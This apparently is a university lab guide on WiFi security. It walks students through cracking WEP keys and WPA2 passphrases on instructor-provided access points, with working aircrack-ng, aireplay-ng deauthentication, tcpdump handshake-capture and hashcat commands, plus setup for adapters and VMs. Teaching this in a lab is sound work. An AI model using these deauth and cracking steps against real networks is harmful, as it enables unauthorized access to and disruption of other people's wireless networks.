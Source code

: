 # TPAS - Lab 05 - WiFi Security

In this assignment, we'll look at WEP and WPA2 hacking techniques.

## 1 - Tools

Please install:

- `aircrack-ng` suite, `hashcat` and [hashcat-utils](https://github.com/hashcat/hashcat-utils)

Linux (Debian/Ubuntu): `sudo apt install aircrack-ng hashcat`

OSX: `brew install aircrack-ng hashcat`

OSX (M1):

```bash
curl https://raw.githubusercontent.com/Homebrew/homebrew-core/5f0518be9014b25ac963593cb5c2d6da68cacafb/Formula/aircrack-ng.rb -O
brew install ./aircrack-ng.rb
```

Hashcat utils:

```bash
git clone https://github.com/hashcat/hashcat-utils.git
cd hashcat-utils/src
make
sudo cp cap2hccapx.bin /usr/local/bin/cap2hccapx
```

## 2 - Tasks

To obtain your points for both tasks, you need to send the captured traffic and correct passwords to the professor via [email](mailto:andre.baptista@fc.up.pt), or show these in person during class.

**Notes:**

- If you're unable to complete these tasks today, I'll try to have the APs available in January.
- If you are unable to enable monitor mode, I have two WiFi adapters that you can use (follow instructions at the end of this guide)
- If you're using a VM, please follow the instructions at the end of this guide.

### Lab 05 - WPA2

Before we start, run the `ifconfig` command to retrieve your WiFi interface (usually `wlan0`, `wlxd`, etc).

1. Retrieve a wordlist (e.g. https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt)

#### Linux

2. Enable monitor mode on your network interface: `airmon-ng start wlan0`
3. Retrieve the target BSSID and channel with `airodump-ng mon0`
4. Capture a 4-way handshake with the command (you need to change `BSSID` and `CHANNEL`): `airodump-ng -c 1 — bssid xx:xx:xx:xx:xx:xx -w capture.cap mon0`
5. While we wait for a handshake, we can use aireplay to force clients to reconnect to the AP (deauth) with: `aireplay-ng -0 2 -a xx:xx:xx:xx:xx:xx mon0`. If you can't perform this, ask the professor to start a handshake manually.
6. Convert to hashcat format: `cap2hccapx capture.cap capture.hccapx`
7. Run hashcat: `hashcat -m 2500 capture.hccapx wordlist.txt`

You can also crack the handshake with `aircrack-ng`: `aircrack-ng -w wordlist.txt capture.cap`

#### OSX

For the `mergecap` command, `brew install wireshark` may be necessary.

2. Run the command: `ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport`
3. Retrieve the target BSSID and channel with `sudo airport -s`
4. Run the following script to capture a 4-way handshake (you need to change `BSSID` and `CHANNEL` variables):

```bash
export BSSID=xx:xx:xx:xx:xx:xx
export CHANNEL=1
sudo airport -z
sudo airport -c$CHANNEL
echo "Waiting for beacon..."
sudo tcpdump "type mgt subtype beacon and ether src $BSSID" -I -c 6 -i en0 -w beacon.cap
echo "Waiting for handshake... CTRL-C when frames > 4"
sudo tcpdump "ether proto 0x888e and ether host $BSSID" -I -U -vvv -i en0 -w handshake.cap
echo "Done"
mergecap -a -F pcap -w capture.cap beacon.cap handshake.cap
cap2hccapx capture.cap capture.hccapx
```

4. While we wait for a handshake, we can use aireplay to force clients to reconnect to the AP (deauth) with the following tool: https://github.com/0x0XDev/JamWiFi. If you can't perform this, ask the professor to start a handshake manually.
5. Run hashcat: `hashcat -m 2500 capture.hccapx wordlist.txt` 

### Lab 05 - WEP

1. Enable monitor mode on your network interface
2. Run `airodump-ng` or `Wireshark` to capture packets
3. Use `aircrack-ng` to crack the key `aircrack-ng -1 -a 1 -b xx:xx:xx:xx:xx:xx capture.cap` after retrieving enough IVs

## 3 - Special instructions

### 3.1 - TP-Link WiFi adapters

1. Install the proper driver for monitor mode support:

```bash
sudo apt -y install bc
sudo rmmod r8188eu.ko
git clone https://github.com/aircrack-ng/rtl8188eus
cd rtl8188eus
sudo echo "blacklist r8188eu" > /etc/modprobe.d/realtek.conf
make
sudo make install
sudo modprobe 8188eu
```

2. Ignore `airmon-ng` commands on this guide, and enable monitor mode with (replace `wlan0` with the interface name):

```bash
ifconfig wlan0 down
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

### 3.2 - Virtual Machines

1. Install [VirtualBox Extension Pack](https://download.virtualbox.org/virtualbox/6.1.30/Oracle_VM_VirtualBox_Extension_Pack-6.1.30.vbox-extpack). Go to `Preferences` > `Extensions` > `Add new package` (green button) and select the downloaded pack.
2. Before starting your VM, right-click and go to `Settings` > `Ports` > `USB` and enable `USB 2.0` or `3.0`.
3. Create a USB device filter and pick the WiFi adapter (e.g. `Realtek USB 10/100/1000 LAN`).
4. Start your VM and plug the USB adapter manually. You may need to click the `USB` icon on your running screen bottom and select the new device (e.g. `Realtek 802.11n NIC`)
5. Follow the steps on `3.1` if you're using provided TP-Link WiFi adapters.
